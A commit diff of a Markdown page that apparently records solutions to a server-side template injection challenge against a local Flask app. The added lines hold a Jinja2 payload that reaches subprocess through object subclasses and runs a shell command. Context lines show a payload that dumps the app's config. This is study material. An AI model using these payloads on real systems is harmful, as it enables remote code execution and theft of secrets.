

Before and after one commit to poorvi1910/Web, a Markdown page: challenges/SSTI_payload_creation_chall.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/challenges/SSTI_payload_creation_chall.md
+++ b/challenges/SSTI_payload_creation_chall.md
@@ -51,7 +51,10 @@ http://127.0.0.1:5000/?c={{%20(dict.mro()[-1]|attr(%22\x5f\x5fsubclasses\x5f\x5f
 ```
 
 - ##  Get name of current python flask script
-
+Didnt get the name of the exact script but got the directory:
+```
+http://127.0.0.1:5000/?c={{%27%27.__class__.mro()[1].__subclasses__()[396](%27pwd%27,shell=True,stdout=-1).communicate()[0].strip()}}
+```
 
 - ## Get all the current envvars
 ```http://127.0.0.1:5000/?c={{config}}```: ```<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None,```
````
